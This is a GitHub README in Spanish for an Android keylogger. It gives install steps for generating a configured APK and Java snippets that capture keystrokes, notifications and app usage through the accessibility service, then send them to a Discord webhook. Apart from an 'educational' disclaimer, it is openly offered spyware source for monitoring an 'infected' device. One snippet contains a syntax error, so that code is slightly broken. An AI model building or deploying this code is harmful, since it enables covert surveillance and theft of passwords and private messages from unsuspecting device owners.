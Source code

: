 # Keylogger para Monitoreo en Android con Integración en Discord

## 📌 Descripción
Este proyecto es un **keylogger** para dispositivos Android que permite el monitoreo de pulsaciones de teclas, notificaciones y tiempo de uso de aplicaciones. Los datos recopilados se envían a un servidor de Discord a través de un webhook. Este proyecto tiene **fines académicos** y está diseñado para demostrar la importancia de la privacidad y seguridad en los dispositivos móviles.

## 🚀 Características
- Obtención de información del sistema infectado.
- Monitoreo de pulsaciones de teclas.
- Monitoreo de notificaciones recibidas.
- Registro del tiempo de uso de aplicaciones.
- Envío de datos a un servidor de Discord mediante un webhook.
- Instalador automatizado para la generación de la APK con configuración personalizada.

## ⚙️ Instalación
### Requisitos
- **Android Studio** con soporte para Gradle.
- **Python 3** instalado.
- Biblioteca `ttkbootstrap` para la interfaz gráfica del instalador:
  ```sh
  pip install ttkbootstrap
  ```

### Pasos de instalación
1. **Clonar el repositorio**
   ```sh
   git clone https://github.com/SolarSpectre/Android-Keylogger-Discord.git
   cd Android-Keylogger-Discord
   ```
2. **Ejecutar el instalador**
   ```sh
   python installer.py
   ```
3. **Ingresar la URL del webhook de Discord** y generar la APK.
![image](https://github.com/user-attachments/assets/42e74f16-1d10-4a2a-bac4-5bf57308af90)
5. **Instalar la APK en el dispositivo Android**.
6. **Activar los permisos de accesibilidad** para permitir el monitoreo.

## 🛠️ Funcionamiento
### 1️⃣ Obtener información del sistema
El keylogger recopila detalles sobre el dispositivo infectado, como fabricante, modelo, versión de Android y número de compilación.
```java
private String getSYSInfo() {
    return "MANUFACTURER : " + Build.MANUFACTURER + "\n" +
           "MODEL : " + Build.MODEL + "\n" +
           "PRODUCT : " + Build.PRODUCT + "\n" +
           "VERSION.RELEASE : " + Build.VERSION.RELEASE + "\n" +
           "VERSION.SDK.NUMBER : " + Build.VERSION.SDK_INT + "\n";
}
```

### 2️⃣ Monitoreo de pulsaciones de teclas
Utiliza el servicio de accesibilidad para capturar texto ingresado por el usuario.
```java
private void handleTextChangedEvent(AccessibilityEvent event) {
    List<CharSequence> textList = event.getText();
    for (CharSequence text : textList) {
        currentKeyEvents.append(text.toString()).append("\n");
    }
    sendBufferToDiscordAndClear();
}
```

### 3️⃣ Monitoreo de notificaciones
Registra las notificaciones recibidas en el dispositivo.
```java
private void handleNotificationChangedEvent(AccessibilityEvent event) {
    for (CharSequence text : event.getText()) {
        currentKeyEvents.append("Notification: ").append(text).append("\n");
    }
    sendBufferToDiscordAndClear();
}
```

### 4️⃣ Monitoreo del tiempo de uso de aplicaciones
Registra la duración de uso de cada aplicación abierta.
```java
private void handleAppFocusChange(AccessibilityEvent event, String time) {
    String packageName = event.getPackageName().toString();
    long timeSpent = System.currentTimeMillis() - lastFocusedTime;
    currentKeyEvents.append("App: " + packageName + " | Duration: " + (timeSpent / 1000) + "s\n");
    sendBufferToDiscordAndClear();
}
```

### 5️⃣ Envío de registros a Discord
Los datos recopilados se envían a un webhook configurado en Discord.
```java
public static void sendMessage(String logMessage) {
    JSONObject messageJSON = new JSONObject();
    messageJSON.put("content", "```\n" + logMessage + "\n```);

    URL url = new URL(WEBHOOK_URL);
    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
    connection.setRequestMethod("POST");
    connection.setRequestProperty("Content-Type", "application/json");
    connection.setDoOutput(true);
}
```
![image](https://github.com/user-attachments/assets/a108cf79-0845-428b-9a37-78f85e41eb6e)

> [!ADVERTENCIA]
> Este proyecto es únicamente **para fines educativos y de concienciación sobre seguridad informática**
> **No debe usarse para actividades ilegales o malintencionadas**.

## 📄 Licencia
Este proyecto está bajo la licencia **MIT**. Consulta el archivo `LICENSE` para más información.

## ✉️ Contacto
Autor: **Joseph Caza**  
Correo: [josephcaza32@gmail.com](mailto:josephcaza32@gmail.com)  
GitHub: [SolarSpectre](https://github.com/SolarSpectre)
